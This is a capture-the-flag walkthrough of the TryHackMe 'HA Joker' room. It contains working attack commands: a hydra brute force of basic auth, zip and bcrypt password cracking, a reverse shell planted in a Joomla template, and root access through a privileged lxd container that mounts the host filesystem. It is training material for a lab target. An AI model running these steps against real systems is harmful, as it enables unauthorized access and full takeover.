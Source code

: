 # HA Joker CTF



Room link: https://tryhackme.com/room/jokerctf

## Enumeration 

Nmap 

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
8080/tcp open  http    Apache httpd 2.4.29
```


ffuf

```
css                     [Status: 301, Size: 308, Words: 20, Lines: 10]
img                     [Status: 301, Size: 308, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 5954, Words: 783, Lines: 97]
secret.txt              [Status: 200, Size: 320, Words: 62, Lines: 7]
                        [Status: 200, Size: 5954, Words: 783, Lines: 97]
phpinfo.php             [Status: 200, Size: 94858, Words: 4706, Lines: 1160]
index.html              [Status: 200, Size: 5954, Words: 783, Lines: 97]
```

secret.txt

```
Batman hits Joker.
Joker: "Bats you may be a rock but you won't break me." (Laughs!)
Batman: "I will break you with this rock. You made a mistake now."
Joker: "This is one of your 100 poor jokes, when will you get a sense of humor bats! You are dumb as a rock."
Joker: "HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA!"
```

http://10.10.68.63/phpinfo.php

## port 8080 (Brute Force)

basic auth brute force with the user name Joker

```
hydra -l joker -P /usr/share/wordlists/rockyou.txt -s 8080 -f 10.10.68.63 http-get / -f -V 

[8080][http-get] host: 10.10.68.63   login: joker   password: hannah
```

enum the new web directorys

```bash
ffuf -u "http://10.10.68.63:8080//FUZZ" -w  /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt  -c   -mc all  -fc 404,403,301 -e .html,.txt,.php,.zip -H "Authorization: Basic am9rZXI6aGFubmFo"

backup                  [Status: 200, Size: 12133560, Words: 0, Lines: 0]
backup.zip              [Status: 200, Size: 12133560, Words: 0, Lines: 0]
robots.txt              [Status: 200, Size: 836, Words: 88, Lines: 33]
robots                  [Status: 200, Size: 836, Words: 88, Lines: 33]
configuration.php       [Status: 200, Size: 0, Words: 1, Lines: 1]
htaccess                [Status: 200, Size: 3005, Words: 438, Lines: 81]
htaccess.txt            [Status: 200, Size: 3005, Words: 438, Lines: 81]
                        [Status: 200, Size: 10925, Words: 776, Lines: 218]
```


Download the backup file and crack the password

```
$ fcrackzip -D -p /usr/share/wordlists/rockyou.txt backup                                                    1 ⨯
possible pw found: hannah ()
```                              

# Crack admin password from backup joomla.sql file. 

![image](https://user-images.githubusercontent.com/5285547/134673619-e5b03ea5-058f-4322-9ec5-4d618df18930.png)


```
echo "$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG" > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash 

abcd1234         (?)
```

![image](https://user-images.githubusercontent.com/5285547/134673748-95bd57b8-85f5-41af-b36b-f402003514c5.png)

```
http://10.10.226.12:8080/administrator/

admin:abcd1234
```

![image](https://user-images.githubusercontent.com/5285547/134674632-7791fc10-dd90-44b0-8f65-d56b0aed1d71.png)

![image](https://user-images.githubusercontent.com/5285547/134674659-80cbb047-fada-4820-9ff4-b1edbd4e5291.png)

## RCE

Add reverse shell to tempalte file

![image](https://user-images.githubusercontent.com/5285547/134676145-80b8d04e-7532-414b-aaf7-fb022bc656dc.png)

Then view template preview to active. 

![image](https://user-images.githubusercontent.com/5285547/134676325-8df76263-2d3a-4e70-84b2-e8286e03c8a6.png)

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
stty raw -echo;fg
reset
```

```
lxc image list  
+-------+--------------+--------+-------------+--------+--------+------------------------------+
| ALIAS | FINGERPRINT  | PUBLIC | DESCRIPTION |  ARCH  |  SIZE  |         UPLOAD DATE          |
+-------+--------------+--------+-------------+--------+--------+------------------------------+
|       | a8258f4a885f | no     |             | x86_64 | 2.39MB | Oct 25, 2019 at 8:07pm (UTC) |
+-------+--------------+--------+-------------+--------+--------+------------------------------+

```

```
# build a simple alpine image
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
sudo ./build-alpine -a i686

# copy to the box... 

# import the image
lxc image import ./alpine*.tar.gz --alias myimage # It's important doing this from YOUR HOME directory on the victim machine, or it might fail.

# before running the image, start and configure the lxd storage pool as default 
lxd init

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

![image](https://user-images.githubusercontent.com/5285547/134677358-f6482879-df85-45f3-8d98-728d05033026.png)


![image](https://user-images.githubusercontent.com/5285547/134677652-80204e01-4dc0-4011-b929-b121eadb6df9.png)


